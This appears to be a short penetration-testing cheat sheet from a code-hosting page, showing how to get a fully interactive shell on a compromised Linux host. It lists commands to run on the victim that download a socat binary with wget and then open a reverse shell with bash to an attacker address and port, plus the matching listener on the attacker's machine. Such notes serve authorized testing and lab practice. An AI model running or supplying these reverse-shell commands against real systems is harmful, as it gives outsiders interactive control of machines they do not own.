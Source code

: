 # Penetration Testing Cheat Sheet

## Spawn a full functionally shell (tty)

If ```socat``` it's not installed, we cand download from [socat binaries](https://github.com/andrew-d/static-binaries):

**On victim**

```bash
$ wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
$ ./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.239:4445
```

**On our machine:**
```
$ socat file:`tty`,raw,echo=0 tcp-listen:4445
```
